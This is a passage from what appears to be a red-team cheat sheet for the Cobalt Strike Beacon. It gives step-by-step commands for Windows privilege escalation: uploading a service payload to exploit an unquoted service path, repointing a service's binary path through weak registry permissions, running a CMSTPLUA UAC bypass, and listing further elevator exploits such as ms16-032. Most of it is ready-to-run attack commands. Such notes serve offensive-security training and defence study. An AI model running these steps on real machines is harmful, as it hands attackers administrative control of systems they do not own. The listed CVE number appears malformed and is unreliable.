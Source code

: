 
### Link

```powershell
link [host] [smb pipe]
link [host] [port]
```
#### Unquoted Service Path

Enumerate available services
```powershell
sc_enum
```

> When abusing services, the dedicated svc.exe payloads must be used.

Query service and view permissions on file path
```powershell
sc_qc BadWindowsService

cacls "C:\Program Files\Bad Windows Service"
```

Upload DNS payload and rename to abuse unquoted service path
```powershell
cd C:\Program Files\Bad Windows Service

upload C:\Payloads\dns_x64.svc.exe

mv dns_x64.svc.exe Service.exe
```

Restart service
```powershell
sc_stop BadWindowsService
sc_start BadWindowsService
```

Checkin on new beacon
```powershell
checkin
```

Remove payload
```powershell
rm Service.exe
```

#### Service Registry Permissions

Enumerate permissions of the service's regsitry key and view current bin path
```powershell
powerpick Get-Acl -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService' | fl

sc_qc BadWindowsService
```

Stop the service
```powershell
sc_stop BadWindowsService
```

Upload payload to writeable directory
```powershell
cd C:\Windows\Tasks

upload C:\Payloads\dns_x64.svc.exe
```

Change bin path to the payload
```powershell
sc_config BadWindowsService C:\Windows\Tasks\dns_x64.svc.exe 0 2
```

Start the service
```powershell
sc_start BadWindowsService
```

Restore the bin path and remove payload
```powershell
sc_config BadWindowsService "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe" 0 2

rm  C:\Windows\Tasks\dns_x64.svc.exe
```

#### UAC Bypass

> Right-click the Beacon, select **Access > One-liner** and select the tcp-local listener.

Execute UAC bypasss
```powershell
runasadmin uac-cmstplua [ONE-LINER]
```

Connect to beacon
```powershell
connect localhost 2383
```

More can be found here
```powershell
beacon> runasadmin

Beacon Command Elevators
========================

    Exploit                         Description
    -------                         -----------
    ms16-032                        Secondary Logon Handle Privilege Escalation (CVE-2016-099)
    uac-cmstplua                    Bypass UAC with CMSTPLUA COM interface
    uac-eventvwr                    Bypass UAC with eventvwr.exe
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
    uac-wscript                     Bypass UAC with wscript.exe
```
